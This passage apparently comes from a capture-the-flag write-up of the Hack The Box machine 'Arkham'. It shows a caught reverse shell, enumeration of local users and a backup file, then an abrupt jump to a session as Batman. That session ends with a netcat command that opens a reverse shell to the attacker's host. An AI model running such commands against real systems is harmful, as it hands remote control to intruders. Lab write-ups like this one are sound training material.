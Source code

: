 I get a shell and found `user.txt`:

```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.130] 49686
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\tomcat\apache-tomcat-8.5.37\bin>whoami
arkham\alfred

C:\tomcat\apache-tomcat-8.5.37\bin>type c:\users\alfred\desktop\user.txt
ba6593...
```

### Elevate to user Batman

Checking local users, I find that batman is a member of local administrators so this is likely the next step.

```
C:\Users\Alfred>net users

User accounts for \\ARKHAM

-------------------------------------------------------------------------------
Administrator            Alfred                   Batman
DefaultAccount           Guest                    WDAGUtilityAccount
The command completed successfully.

C:\Users\Alfred>net users batman
[...]

Local Group Memberships      *Administrators       *Remote Management Use
                             *Users
Global Group memberships     *None
The command completed successfully.
```

I find a backup file in Alfred's Downloads directory.

```
C:\Users\Alfred>dir /s downloads
 Volume in drive C has no label.
 Volume Serial Number is FA90-3873

 Directory of C:\Users\Alfred\downloads

02/03/2019  08:48 AM    <DIR>          .
02/03/2019  08:48 AM    <DIR>          ..
02/03/2019  08:41 AM    <DIR>          backups
               0 File(s)              0 bytes

 Directory of C:\Users\Alfred\downloads\backups

02/03/2019  08:41 AM    <DIR>          .
02/03/2019  08:41 AM    <DIR>          ..
02/03/2019  08:41 AM           124,257 backup.zip
               1 File(s)        124,257 bytes
```


[arkham]: PS C:\Users\Batman\Documents>
[arkham]: PS C:\Users\Batman\Documents> cd ..
[arkham]: PS C:\Users\Batman\Documents> whoami
[arkham]: PS C:\Users\Batman\Documents> cd \users\administrator\desktop
[arkham]: PS C:\Users\Batman\Documents> c:\programdata\nc.exe -e cmd.exe 10.10.14.23 6666